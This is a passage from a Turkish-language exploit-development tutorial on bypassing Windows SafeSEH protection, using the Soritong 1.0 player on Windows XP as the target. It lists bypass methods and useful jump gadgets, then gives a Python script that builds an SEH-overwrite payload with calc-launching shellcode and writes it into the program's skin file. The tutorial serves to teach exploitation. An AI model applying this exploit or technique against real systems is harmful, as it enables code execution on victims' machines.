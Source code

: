 3. Hatırlayacağınız üzere `SEH` üzerine yazmış olduğumuz adres yüklenen modüllerin içerisine denk geliyor mu diye kontrol ediliyordu. Eğer biz yüklenen modüllerin dışında `SafeSEH` koruması kapalı olan ve hali hazırda çalışan bir modül veya program bulursak eğer ordaki bir adreside kullanabiliriz. Çünkü `SafeSEH` mekanizması yüklenen modüller dışındaki bir adresi kontrol etmez ve güvenli varsayarak direk çalıştırır.

4. SafeSEH koruması sadece `STACK` adreslerini kontrol etmektedir. Eğer ki `HEAP` içerisinde işimize yarayacak bir adres/durum oluşursa bunu kullanabiliriz.

# `Let's Go`

Bilmemiz gereken önemli bir konu daha var ki o da sadece `pop,pop,ret` instruction ihtiyacımız olmadığı. Biz aşağıda yazan instructionları da kullanabiliriz.

- call dword ptr[esp+nn]
- jmp dword ptr[esp+nn]
- call dword ptr[ebp+nn]
- jmp dword ptr[ebp+nn]
- call dword ptr[ebp-nn]
- jmp dword ptr[ebp-nn]

Call/jmp işlemlerinde özellikle aradığımız şeyler  => `esp+8, esp+14, esp+1c, esp+2c, esp+44, esp+50, ebp+0c, ebp+24, ebp+30, ebp-04, ebp-0c, ebp-18`

Bunları özel kılan şeyin ne olduğunu uygulamalı olarak göreceğiz :)

Normalde bizim `Soritong` uygulamamızda ve modüllerin birçoğunda `SafeSEH` koruması yok ancak biz kendimize bir senaryo belirleyelim. Uygulamamızın kendisinde ve yüklediği modüllerde `SafeSEH` korumasının açık olduğunu varsayalım. Yukarda anlatmış olduğumuz `safeseh Bypass` yöntemlerinide inceleyerek bizim için en mantıklı olan 3. numaralı yöntemi uygulayalım.

Daha önce yazmış olduğumuz exploit kodunu alalım ve nextSEH adresine `\xCC` vererek çalıştıralım.

```python
# Soritong 1.0 SafeSEH Bypass
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"\x90"*584
nextSEH = b"\xCC"*4
SEH = b"\x39\xaf\x01\x10"

exploit = padding + nextSEH + SEH + calc

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```
